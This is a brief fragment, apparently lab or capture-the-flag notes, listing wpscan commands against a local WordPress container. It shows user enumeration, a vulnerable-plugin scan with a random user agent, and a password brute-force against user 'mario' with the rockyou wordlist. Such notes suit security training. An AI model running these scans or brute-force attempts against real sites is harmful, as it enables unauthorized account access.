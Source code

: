 wpscan --url http://172.17.0.2/ --enumerate u

wpscan --url https://xx --enumerate vp --random-user-agent


┌──(daniel㉿kali)-[~]
└─$ wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt  
